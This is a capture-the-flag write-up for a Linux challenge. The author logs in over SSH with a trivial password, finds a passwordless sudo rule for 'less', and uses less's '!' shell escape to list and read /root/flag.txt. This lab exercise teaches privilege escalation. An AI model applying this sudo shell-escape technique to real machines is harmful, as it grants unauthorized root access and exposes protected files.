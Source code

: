 # A thief in Santa's House (linux) (authors: M1dwinter.sln)

## Description

```shell
Santa Claus is leaving for Christmas Tour. Unfortunately someone is trying to steal the secrets. Save the Christmas and be the first one. Get the flag in /root folder and escape.

Use elf with elf password for ssh connection.

PS: What a careless elf left the account with a really trivial password!
```

## Task analysis & solution

We have these details and hints provided to us from the get go:

- user: **`elf`**
- password: **`elf`**
- the docker instance to connect to
- A hint that the flag is in the **`/root`** folder

First, let's connect with the given details:

```shell
ssh 10.10.8.61 -p <port> -l elf
```

```
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-127-generic x86_64)
Last login: Tue Dec 31 14:08:54 2024 from 10.4.24.45
elf@fd3414fe8fed:~$
```

When I connected, I decided to take a look arround. Let's see who we are and what our home directory is:

```shell
$ pwd && whoami
/home/ubuntu
elf
```

We know the flag is in /root, so let's naively try to list the contents of that:

```shell
elf@fd3414fe8fed:~$ ls /root
ls: cannot open directory '/root': Permission denied
```
As a non-root user, access to the /root directory is restricted by default. This limitation emphasizes the need for privilege escalation.

At this point, we probably need to see exactly what we CAN do. The command 'sudo -l' can show us that. It is used to list the privileges and permissions a user has when running commands with sudo. Essentially, it shows what commands the user is allowed to execute with sudo based on the configuration in the /etc/sudoers file or any additional sudoers configuration files.

```shell
elf@fd3414fe8fed:~$ sudo -l
Matching Defaults entries for elf on fd3414fe8fed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User elf may run the following commands on fd3414fe8fed:
    (root) NOPASSWD: /usr/bin/less /root/sharedsecret.txt
```

Well well well, the user elf can run the less command as root on the file /root/sharedsecret.txt without a password. Let's see:

```shell
elf@fd3414fe8fed:~$ sudo /usr/bin/less /root/sharedsecret.txt | cat
The flag is really near!
```

Of course, that would've been too easy.. The good thing is that most of the time these viewer programs have a way to execute shell commands. In the case with LESS, a simple Google search reveals that you can do that with an exclamation mark in front or just enter interactive shell mode by doing ``!sh``. 

So, ``!ls /root`` should work inside LESS. Let's try that:

```shell
elf@fd3414fe8fed:~$ sudo /usr/bin/less /root/sharedsecret.txt

!ls /root

flag.txt  sharedsecret.txt

```

It worked. Now we know there is one more file inside /root - flag.txt. Now let's just do !cat flag.txt inside LESS:

```shell
!cat /root/flag.txt

MilestoneCTF{make_Santa_happy_make_the_World_See}
```

The flag is **`MilestoneCTF{make_Santa_happy_make_the_World_See}`** 


